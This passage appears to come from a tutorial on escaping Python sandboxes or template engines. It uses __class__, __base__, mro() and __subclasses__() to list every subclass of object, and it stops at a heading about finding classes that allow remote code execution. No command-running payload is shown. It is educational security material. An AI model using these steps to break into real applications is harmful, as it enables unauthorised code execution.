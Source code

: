 #### Next you want to understand Python's hierarchy. Using `__mro__` or `mro()`, you can go back up the tree of inherited objects in the Python environment.
```Python
s.__class__.__class__
```

```
<class 'type'>
```

```Python
s.__class__.__base__
```

```
<class 'object'>
```

```Python
s.__class__.__base__.__subclasses__()
```

```
[<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>, <class 'int'>, <class 'bytearray'>, <class 'bytes'>, <class 'list'>, <class 'NoneType'>, <class 'NotImplementedType'>, <class 'traceback'>, <class 'super'>, <class 'range'>, <class 'dict'>, <class 'dict_keys'>, <class 'dict_values'>, <class 'dict_items'>, <class 'dict_reversekeyiterator'>, <class 'dict_reversevalueiterator'>, <class 'dict_reverseitemiterator'>, <class 'odict_iterator'>, <class 'set'>, <class 'str'>, <class 'slice'>, <class 'staticmethod'>, <class 'complex'>, <class 'float'>, <class 'frozenset'>, <class 'property'>, <class 'managedbuffer'>, <class 'memoryview'>, <class 'tuple'>, <class 'enumerate'>, <class 'reversed'>, <class 'stderrprinter'>, <class 'code'>, <class 'frame'>, <class 'builtin_function_or_method'>, <class 'method'>,
 <SNIP>
```

```Python
s.__class__.mro()[1].__subclasses__()
```

```
[<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>, <class 'int'>, <class 'bytearray'>, <class 'bytes'>, <class 'list'>, <class 'NoneType'>, <class 'NotImplementedType'>, <class 'traceback'>, <class 'super'>, <class 'range'>, <class 'dict'>, <class 'dict_keys'>, <class 'dict_values'>, <class 'dict_items'>, <class 'dict_reversekeyiterator'>, <class 'dict_reversevalueiterator'>, <class 'dict_reverseitemiterator'>, <class 'odict_iterator'>, <class 'set'>, <class 'str'>, <class 'slice'>, <class 'staticmethod'>, <class 'complex'>, <class 'float'>, <class 'frozenset'>, <class 'property'>, <class 'managedbuffer'>, <class 'memoryview'>, <class 'tuple'>, <class 'enumerate'>, <class 'reversed'>, <class 'stderrprinter'>, <class 'code'>, <class 'frame'>, <class 'builtin_function_or_method'>, <class 'method'>,
 <SNIP>
```
#### Look for useful classes that can facilitate remote code execution
```Python
x = s.__class__.mro()[1].__subclasses__()
```

